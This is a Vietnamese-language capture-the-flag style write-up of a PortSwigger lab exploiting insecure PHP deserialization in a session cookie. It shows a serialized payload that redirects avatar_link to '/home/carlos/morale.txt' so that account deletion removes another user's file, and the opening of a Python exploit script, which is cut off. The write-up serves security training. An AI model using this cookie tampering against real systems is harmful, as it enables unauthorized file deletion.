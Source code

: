 <ul>
    <li>đề bài yêu cầu chúng ta tận dụng lỗi Insecure deserialization ở cookie xóa file morale.txt của carlos và mình thử thay đổi token như bài trước nhưng không được có thể bài đã dùng <b>"==="</b> để so sánh nghiêm ngặt cả kiểu dữ liệu 
    </li>
    <img src = "https://hackmd.io/_uploads/Bk52UawY6.png">
    <li>mình đã đăng nhập bằng tài khoản <b>wiener:peter</b> rồi chặn gói tin ở burp suite và view details 1 sản phầm</li>
</ul>

và mình bắt được gói tin có chứa thông tin về cookie mà mình có thể thay đổi được

![image](https://hackmd.io/_uploads/HkLzrpwF6.png)

mình đưa vào repeater và burp suite tự động lần lượt decode url và base 64 cho mình ở góc bên trái

![image](https://hackmd.io/_uploads/rJ84rawK6.png)

<ul>
    <ul>mình có được 1 đối tượng là User có các thuộc tính là : 
        <li>username kiểu string tên là wiener</li>
        <li>access_token kiểu string với giá trị là <b>pbjlw0fes41o8uwbj0657gcotm01e5jp</b></li>
        <li>avatar kiểu string có giá trị là đường dẫn thư mục đến avatar của wiener</li>
    </ul>
    <li>và mình có thể xóa được tài khoản của mình </li>
</ul>

![image](https://hackmd.io/_uploads/SkQmPawYp.png)

vậy điều gì xảy ra nếu mình upload avatar nhưng đường dẫn của nó trỏ đến file morale.txt của carlos

### Khai thác

`s:11:"avatar_link";s:23:"/home/carlos/morale.txt"`

mình sẽ thay đổi đường dẫn avatar đến thư mục cần xóa và sau đó xóa tài khoản của mình và thư mục của carlos cũng sẽ bị xóa theo

![image](https://hackmd.io/_uploads/rkt4aTDY6.png)

![image](https://hackmd.io/_uploads/S1f7RTwFT.png)

mình đã viết lại script khai thác

```python=
#!/usr/bin/python3.7
import requests
import re
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from bs4 import BeautifulSoup
import base64
from urllib.parse import quote

url = 'https://0a4900ad03613167814c9dd900600021.web-security-academy.net'

session = requests.Session()

# Đăng nhập
data_login = {
    'username': 'gregg',
    'password': 'rosebud',
}

response = requests.post(
    url + "/login",
```